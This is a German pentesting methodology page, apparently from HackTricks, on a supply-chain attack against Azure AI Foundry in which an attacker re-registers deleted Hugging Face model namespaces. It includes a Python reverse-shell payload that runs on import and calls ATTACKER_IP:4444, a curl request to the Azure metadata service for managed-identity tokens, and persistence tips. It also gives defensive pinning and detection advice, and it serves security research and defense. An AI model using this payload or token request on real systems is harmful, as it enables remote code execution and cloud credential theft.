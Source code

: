# Azure - AI Foundry Post-Exploitation durch Wiederverwendung von Hugging Face Model-Namespaces

{{#include ../../../banners/hacktricks-training.md}}

## Szenario

- Der Azure AI Foundry Model Catalog enthält viele Hugging Face (HF) Modelle für One-Click-Bereitstellungen.
- HF model identifiers are Author/ModelName. Wenn ein HF author/org gelöscht wird, kann jeder diesen Author neu registrieren und ein Modell mit demselben ModelName am legacy path veröffentlichen.
- Pipelines und Kataloge, die nur nach Name pullen (kein commit pinning/integrity), werden auf vom Angreifer kontrollierte Repos aufgelöst. Wenn Azure das Modell deployed, kann Loader-Code in der Endpoint-Umgebung ausgeführt werden und RCE mit den Berechtigungen dieses Endpoints ermöglichen.

Häufige HF-Takeover-Fälle:
- Ownership deletion: Alter Pfad 404 bis zur Übernahme.
- Ownership transfer: Alter Pfad 307 zum neuen Author, solange der alte Author existiert. Wenn der alte Author später gelöscht und neu registriert wird, bricht die Weiterleitung und das Angreifer-Repo wird am Legacy-Pfad ausgeliefert.

## Identifying Reusable Namespaces (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## End-to-End-Angriffsablauf gegen Azure AI Foundry

1) Im Model Catalog HF-Modelle finden, deren ursprüngliche Autoren auf HF gelöscht oder übertragen wurden (alter Author entfernt).
2) Den verlassenen Author auf HF erneut registrieren und den ModelName neu erstellen.
3) Ein bösartiges repo veröffentlichen mit Loader-Code, der beim Import ausgeführt wird oder trust_remote_code=True erfordert.
4) Die legacy Author/ModelName in Azure AI Foundry deployen. Die Plattform zieht das Angreifer-repo; der Loader führt im Azure Endpoint-Container/VM aus und erzielt RCE mit den Berechtigungen des Endpunkts.

Beispielhaftes Payload-Fragment, das beim Import ausgeführt wird (nur zur Demonstration):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Hinweise
- AI Foundry-Deployments, die HF integrieren, klonen und importieren typischerweise Repo-Module, die in der Konfiguration des Modells referenziert werden (z. B. auto_map), was Codeausführung auslösen kann. Für einige Pfade ist trust_remote_code=True erforderlich.
- Der Zugriff entspricht in der Regel den Berechtigungen der managed identity/service principal des Endpunkts. Behandle ihn als Initial-Access-Foothold für Datenzugriff und laterale Bewegung innerhalb von Azure.

## Post-Exploitation Tipps (Azure Endpoint)

- Enumeriere Environment-Variablen und MSI-Endpunkte nach Tokens:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- Überprüfe eingebundenen Speicher, Modellartefakte und erreichbare Azure-Dienste mit dem erlangten Token.
- Erwäge persistence, indem du vergiftete Modellartefakte hinterlässt, falls die Plattform Modelle erneut von HF abruft.

## Verteidigungshinweise für Azure AI Foundry-Nutzer

- Modelle beim Laden von HF nach Commit pinnen:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Spiegeln Sie geprüfte HF-Modelle in ein vertrauenswürdiges internes Registry und stellen Sie sie von dort bereit.
- Scannen Sie kontinuierlich Codebasen und defaults/docstrings/notebooks nach hartkodierten Author/ModelName, die gelöscht/übertragen wurden; aktualisieren oder pinnen.
- Validieren Sie die Existenz des author und die Provenienz des Modells vor der Bereitstellung.

## Erkennungsheuristiken (HTTP)

- Gelöschter author: author-Seite 404; legacy model path 404 bis zur Übernahme.
- Übertragenes Modell: legacy path 307 auf neuen author, während der alte author existiert; wenn der alte author später gelöscht und neu registriert wird, liefert der legacy path Angreifer-Inhalte.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Querverweise

- Siehe die umfassendere Methodik und Hinweise zur Lieferkette:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Referenzen

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
